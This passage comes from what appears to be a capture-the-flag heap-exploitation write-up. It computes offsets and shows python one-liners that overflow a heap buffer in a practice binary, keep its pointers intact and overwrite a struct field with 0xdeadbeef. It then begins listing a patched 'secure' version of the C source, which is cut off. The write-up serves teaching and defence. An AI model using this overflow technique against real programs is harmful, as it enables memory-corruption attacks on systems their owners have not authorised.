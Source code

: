 ```
>>> 0x804b048 - 0x804b028
32
>>> 32 - 4
28
```

So 28 characters past our current location, we should need to write the address 0x804b058 (or another functioning address) in order for the program to properly function. Let's try it.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h2$ python -c 'print "0"*16 + "\x38\xb0\x04\x08" + "0"*28 + "\x58\xb0\x04\x08"' | ./h2
Alpha Centari is 0000000000000000X�
 light years away..
The asteroid is 10 parsecs away.
Imagine how long it will be, untill a researcher that is working hard is living on Mars. You wouldn't know since your not researching.
```

It worked, we managed to not disturb the pointers with our oveflow. Now with our exploit, we are right where the value that is being evaluated yellow->asteroid is being stored. So we should just be able to overwrite it with the hex string 0xdeadbeef, and we should pwn the challenge.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h2$ python -c 'print "0"*16 + "\x38\xb0\x04\x08" + "0"*28 + "\x58\xb0\x04\x08" + "\xef\xbe\xad\xde"' | ./h2
Alpha Centari is 0000000000000000X�ﾭ�
 light years away..
The asteroid is -559038737 parsecs away.
It's funny how much a researcher can tell from light. Level Cleared!
Imagine how long it will be, untill a researcher that is working hard is living on Mars. You wouldn't know since your not researching.
```

Just like that we pwned the binary. Now to patch it (just like a stack overflow exploit).

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h2$ cat h2_secure.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct vaccum	
{
	char* quasar;
	int asteroid; 
};

int main(int argc, char **argv)
{
	struct vaccum *blue, *red, *yellow;

	blue = malloc(sizeof(struct vaccum));
	blue->quasar = malloc(10);
	blue->asteroid = 15;

	
	red = malloc(sizeof(struct vaccum));
	red->quasar = malloc(10);
	red->asteroid = 43;
	
	yellow = malloc(sizeof(struct vaccum));
	yellow->quasar = malloc(10);
	yellow->asteroid = 10;	

	strcpy(red->quasar, "4.367");
	strcpy(yellow->quasar, "far far away");
```